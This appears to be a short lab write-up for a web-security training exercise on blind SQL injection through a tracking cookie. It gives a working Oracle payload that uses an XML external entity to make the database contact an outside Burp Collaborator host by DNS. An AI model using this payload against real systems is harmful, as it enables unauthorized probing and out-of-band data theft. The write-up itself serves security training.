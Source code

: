 # Lab #15 - Blind SQL injection with out-of-band interaction

Vulnerable parameter - Tracking cookie

**End Goal**
 - Exploit SQLi and cause a DNS lookup

**Analysis:**

cgwihkkm49dt3sgk9lufyyb6mxsngc.burpcollaborator.net

```SQL
' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://cgwihkkm49dt3sgk9lufyyb6mxsngc.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--
```